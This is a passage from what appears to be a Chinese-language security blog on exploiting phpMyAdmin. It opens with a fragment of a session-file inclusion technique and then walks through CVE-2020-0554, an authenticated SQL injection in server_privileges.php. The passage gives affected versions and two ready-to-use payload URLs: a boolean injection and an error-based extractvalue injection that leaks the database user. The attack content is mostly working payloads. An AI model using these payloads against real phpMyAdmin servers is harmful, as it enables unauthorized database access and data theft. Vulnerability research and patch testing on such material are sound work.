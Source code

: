 phpStudy：

```
/phpstudy/PHPTutorial/tmp/tmp
```


（4）访问包含Session文件的地址：

```
http://10.1.1.10/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[ multi_edit][][]=baz&clause_is_unique=1
```

### 3.6 CVE-2020-0554：后台SQL注入

影响范围：

```
phpMyAdmin version
	phpMyAdmin 4< 4.9.4
	phpMyAdmin 5< 5.0.1
	前提：已知一个用户名密码
```

简单总结流程：

页面位置server_privileges.php；

设置变量ajax_requests为true；

设置变量validate_username 为真值；

设置变量username 为我们拼接的注入语句。

构造payload：

```javascript
http://192.168.209.139:8001/server_privileges.php?ajax_requests=true&validate_username=1&username=1%27or%201=1%20--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

（token和其余参数会在访问页面的时候自动提供）

我们查看后端收到的数据，可以看到SQL已经成功拼接。

![](H:/Blog/1.png)

执行完毕后程序只会告知SQL是否执行成功，失败会报错，因此此处我们可以利用报错注入。

构造payload：

```javascript
http://192.168.209.139:8001/server_privileges.php?ajax_request=true&validate_username=1&username=1%27and%20extractvalue(1,concat(0x7e,(select%20user()),0x7e))--+db=&token=c2064a8c5f437da931fa01de5aec6581&viewing_mode=server
```

结果如下，可以看到已经成功执行了我们注入的指令。

![](H:/Blog/2.png)

